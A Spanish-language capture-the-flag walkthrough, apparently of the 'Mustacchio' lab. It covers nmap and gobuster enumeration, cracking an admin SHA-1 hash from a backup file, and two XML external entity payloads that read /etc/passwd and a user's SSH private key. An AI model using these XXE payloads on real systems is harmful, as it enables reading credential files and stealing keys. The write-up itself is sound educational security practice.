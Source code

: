 ### nmap 
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:34 EST
Nmap scan report for 10.10.163.196
Host is up (0.23s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.04 seconds
```
tenemos un archivo robots.txt
### Ports: 22/ssh - 80/http - 8765/http 

### Enumeracion del puerto 80
![[Pasted image 20231211214708.png]]
### parece que no hay mucha cosa interesante veamos el archivo robots.txt
![[Pasted image 20231211215451.png]]
parece que el archivo esta vacio
###  gobuster
![[Pasted image 20231211215631.png]]
gobuster nos certifica que existe el archivo robots.txt aparte de esto de todos los subdirectorios el mas llamativo es custom
### subdirectorio custom/js
![[Pasted image 20231211215353.png]]
### el archivo users.bak lo podemos descargar 
![[Pasted image 20231211220112.png]]
parece que tenemos un usuario admin con un hash asi que vamos a decodearlo

### usamos hashid para identificar el hash
![[Pasted image 20231211220355.png]]
buscamos un decoder de hash SHA-1
### tenemos un usuario y ahora una pass
![[Pasted image 20231211220902.png]]
### iniciamos session cn el panel de login
![[Pasted image 20231211222507.png]]
### parece que el panel de comandos no es vulnerable a reverse shell ni inyeccion sql
### miramos el codigo fuente
![[Pasted image 20231211222616.png]]
### parece que aqui nos dejan una pista asi que vamos a mirar este subdirectorio
### se nos descarga un archivo automaticamente y lo abrimos con strings 
parece que tenemos un archivo xml
![[Pasted image 20231211222919.png]]
### xml inyection 
usaremos esta xml inyeccion para intentar mirar el etc/passwd

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

![[Pasted image 20231212001031.png]]
### perfecto tenemos respuesta. vemos que existe un usuario llamado barry. vamos a intentar consegui su id_rsa modificando la ruta en el xml

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```
### tenemos la id_rsa de barry
![[Pasted image 20231212001934.png]]
para poder copiar la id_rsa de una mejor podemos hacer Ctrl + u para ver el codigo fuente

